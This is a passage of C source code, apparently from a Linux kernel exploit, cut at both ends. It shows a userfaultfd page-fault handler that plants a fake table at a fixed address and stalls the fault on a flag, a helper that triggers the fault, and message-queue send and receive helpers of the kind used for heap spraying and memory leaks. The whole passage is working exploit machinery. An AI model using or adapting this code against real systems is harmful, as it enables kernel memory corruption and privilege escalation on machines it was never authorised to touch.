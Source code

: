 ```c
            printf("[+] Page Fault triggered on address 0x%llx\n", msg.arg.pagefault.address);

            if(msg.arg.pagefault.address == (void *)0x5551000)
            {
                memcpy(page2, (char *) &fake_table, 8);
            }

            while (release_page_fault == false);

            uffdio_copy.src = (uint64_t) page2;
            uffdio_copy.dst = (uint64_t) msg.arg.pagefault.address &~(PAGE_SIZE - 1);
            uffdio_copy.len = PAGE_SIZE;
            uffdio_copy.mode = 0;
            uffdio_copy.copy = 0;

            if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
            {
                perror("[-] ioctl");
                exit(0);
            }

            release_page_fault = false;
        }
    }

    close(uffd);
    puts("[+] Page fault thread finished");
}

void *trigger_userfaultfd(struct args_trigger *args)
{
    char *addr = (char *) args->addr;
    int size = args->size;
    uint32_t fd = (uint64_t) args->fd;

    write(fd, addr, size);
}

void send_msg(int qid, const void *msg_buf, size_t size, long mtype)
{
    struct msgbuf
    {
        long mtype;
        char mtext[size - 0x30];
    } msg;

    msg.mtype = mtype;
    memcpy(msg.mtext, msg_buf, sizeof(msg.mtext));

    if (msgsnd(qid, &msg, sizeof(msg.mtext), 0) == -1)
    {
        perror("msgsnd");
        exit(1);
    }
}

void *recv_msg(int qid, size_t size)
{
    void *memdump = malloc(size);

    if (msgrcv(qid, memdump, size, 0, IPC_NOWAIT | MSG_NOERROR) == -1)
    {
        perror("msgrcv");
```
